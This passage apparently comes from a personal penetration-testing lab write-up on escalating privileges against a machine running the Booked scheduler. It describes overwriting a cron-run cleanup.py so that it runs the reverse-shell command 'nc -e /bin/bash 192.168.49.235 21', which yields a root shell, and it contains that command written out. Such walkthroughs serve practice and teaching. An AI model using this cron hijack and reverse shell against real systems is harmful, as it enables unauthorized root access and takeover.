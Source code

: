 #### -Cat'd "/var/www/html/booked/cleanup.py" and found the following:
![](Pasted%20image%2020221018232524.png)

##### -As I kept receiving errors when trying to navigate on "vi" locally on target machine I created a "cleanup.py" file on my kali machine and changed "rm -r /var/www/html/booked/uploads/reservation/* " to "nc -e /bin/bash 192.168.49.235 21":

![](Pasted%20image%2020221018232639.png)
#CronJobmodificationPrivilegeEscalation

##### -I then uploaded the "cleanup.py" script I created onto target machine and typed "mv cleanup.py /var/www/html/booked/" to overwrite the existing cleanup.py file in /var/www/html/booked/ and started a netcat listener on port 21 and waited a few minutes and received a root shell:

![](Pasted%20image%2020221018232733.png)


---

